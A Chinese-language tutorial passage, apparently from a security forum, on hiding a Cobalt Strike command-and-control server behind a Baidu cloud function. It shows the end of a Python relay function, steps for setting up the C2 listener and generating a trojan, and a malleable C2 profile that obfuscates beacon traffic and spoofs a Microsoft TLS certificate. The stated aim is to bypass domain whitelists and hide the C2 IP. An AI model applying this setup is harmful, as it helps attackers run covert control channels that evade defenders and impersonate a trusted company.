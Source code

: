 ```python
        "isBase64Encoded": True,
        "statusCode": resp.status_code,
        "headers": dict(resp.headers),
        "body": str(base64.b64encode(resp.content))[2:-1]
    }
    #return event
    return response
```

在触发器可以看到云函数的域名，百度云服务商仅支持https

![Untitled4.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-89e5f11db4bea9a1e5c2e82a4ea13eb67bdda881.png)

接下来配置C2的监听器并生成木马文件，注意脚本中的http/https协议要与beacon协议一致，端口号一致

![微信截图_20240702140951.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-702b67ec5866d602a59ff5865334827179c230b0.png)

从以上细节可以看出这种方式不仅能绕过域名白名单限制，还能隐藏好C2ip，因为中间的https流量只会出现云函数的域名，并且服务端IP已被隐藏

![Untitled5.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-d9a184a4abe372282ab4e447172758b55071ab90.png)

当然，为了更好的混淆流量，启动CS的时候你可以配置一下profile（也可以不配置）

Profile混淆
=========

Cobalt Strike工具的主要配置是使用profile配置文件指定的。该工具使用配置文件中的值来生成 Beacon 有效负载，用户创建配置文件并使用可延展命令和控制(C2)配置文件语言设置其值。为CS设置有效的profile配置文件，可以起到对CS流量、内存进行混淆的作用。

![Untitled6.png](https://shs3.b.qianxin.com/attack_forum/2024/07/attach-4a5165a74360c44ca27da9555c97f8e88b7812e0.png)

以下是一个简单的模板

```json
#这是一个简单的模板
###global options###
set sleeptime "10000";     # 睡眠时间，单位ms，可选择长一点
set jitter "0";           # 睡眠抖动时间，百分比0-99
#set host_stage "false";      # 设置所有的Payload都为Stageless，提高安全性
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0";

###SSL Options###
#https-certificate {
    #set keystore "your_store_file.store";
    #set password "your_store_pass";
#}

https-certificate {
    set C "US";                      # 单位的两字母国家代码
    set CN "Microsoft IT TLS CA 2";  # 通用名称
    set L "Redmond";                 # 城市或区域名称
    set O "Microsoft Corporation";   # 组织名称
    set OU "Microsoft IT";           # 组织单位名称
    set ST "Washington";             # 州或省份名称
    set validity "365";
}

##CODE-SIGNER Block###
code-signer{
    # 用于签名 Windows Executable and Windows Executable (S)，确保Payload一致性
    set keystore "cobaltstrike1.store"; 
    set password "password";
    set alias "certificate";
}

###HTTP-GET Block###
```
